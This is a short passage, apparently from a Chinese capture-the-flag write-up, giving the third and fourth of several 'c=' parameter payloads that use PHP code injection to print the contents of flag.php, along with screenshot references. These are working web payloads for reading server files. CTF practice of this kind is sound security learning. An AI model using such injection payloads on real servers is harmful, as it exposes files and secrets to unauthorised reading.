 第三种：

```
c=print_r(php_strip_whitespace("flag.php"));
```

![image-20240120214348160](照片/image-20240120214348160.png)

第四种：

```
c=print_r(file_get_contents("flag.php"));
```
